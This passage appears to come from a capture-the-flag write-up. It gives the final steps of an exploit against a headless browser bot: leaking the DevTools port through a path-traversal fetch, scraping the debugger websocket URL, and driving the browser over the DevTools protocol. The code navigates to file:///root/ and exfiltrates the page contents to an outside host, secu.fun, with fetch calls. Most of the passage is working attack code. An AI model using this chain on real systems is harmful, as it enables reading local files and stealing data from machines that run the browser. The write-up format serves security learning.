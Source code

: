 6) **Extract the websocket URL**

The HTML content is a **raw file**, we will need to regex on it to recover the good `ws://` 

```js
// Attempt to extract WS link of our base tab
const regex = /"url"\s*:\s*"([^"]+)"\s*,\s*"webSocketDebuggerUrl"\s*:\s*"([^"]+)"/g;
let match;
while ((match = regex.exec(rawContent)) !== null) {
    const url = match[1];
    const webSocketUrl = match[2];
    if (url === targetPageUrl) {
        [...];
    }
}
```

7) **Finally start the websocket**

```js
// Create a websocket in our site and exploit it to access file:// and then access to the FS ! 
const ws = new WebSocket(targetWebSocketUrl);

ws.onopen = function(event) {
    console.log('WebSocket connection established.');
    ws.send(JSON.stringify({ id: 0, method: 'Page.navigate', params: { url: 'file:///root/' } })); //Load file or folder
    ws.send(JSON.stringify({ id: 1, method: 'Runtime.evaluate', params: { expression: 'fetch(`http://secu.fun:8080/?c=${btoa(encodeURIComponent(document.body.innerHTML))}`)' } }))
};
```


8) **Put it all together**

I add some **obligatory** `timeout` and some debug to the exfiltration site, with this we just pass the 7-second time sleep of the bot !

```js
function fetchAndUsePort() {
    fetch('http://localhost/logs../browser_cache/DevToolsActivePort') // Leak the port, no SOP here
        .then(response => response.text())
        .then(text => {
            const lines = text.split('\n');
            if (lines.length > 0) {
                const port = lines[0].trim();
                const base_url = "http://localhost";
                const WS_urls = `${base_url}:${port}/json/list`

                window.open(WS_urls); // we cache the page of the /json/list, SOP here because of different port
                
                const suffixed_url = `1/0/_dk_${base_url} ${base_url} ${base_url}:${port}/json/list`; // we create the cache_key from the URL
                return getEntryHashKey(suffixed_url);
            } else {
                throw new Error('No port found in the response, maybe clear the cache?');
            }
        })
        .then(hash => {
            console.log("Current hash:", hash);
            fetch(`http://secu.fun:8080/?c=step1:${hash}`)
            setTimeout(() => { 
                    fetchHtmlContentFromCache(hash, targetPageUrl); // Load our exploit page in /json/list ( don't care about cache here ), devtool will create a ws to interact with this
            }, 1500);
            
        })
```